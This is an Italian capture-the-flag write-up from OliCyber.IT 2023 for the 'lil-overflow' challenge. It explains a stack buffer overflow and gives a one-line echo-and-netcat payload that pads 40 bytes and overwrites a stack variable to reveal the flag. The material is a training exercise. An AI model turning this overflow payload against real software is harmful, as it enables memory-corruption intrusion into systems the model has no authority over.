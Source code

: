 # OliCyber.IT 2023 - Simulazione training camp 3

## [binary] lil-overflow (41 risoluzioni)

La challenge chiede di inserire una stringa, e la scrive in un buffer sullo stack.

Il numero di byte che il programma legge è maggiore della lunghezza del buffer, quindi si può sovrascrivere la memoria che sullo stack si trovo dopo il buffer.

Il programma poi confronta una variabile sullo stack con _0x5ab1bb0_, e se corrispondesse, stamperebbe la flag.

### Soluzione

Dato che il buffer ha dimensione 32, e subito dopo sullo stack c'è un puntatore non utilizzato e la variabile di interesse, si può sovrasrcrivere quest'ultima scrivendo 40 byte seguiti dal valore che ci interessa scrivere.

### Exploit

```sh
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb0\x1b\xab\x05"| nc IP PORT
```
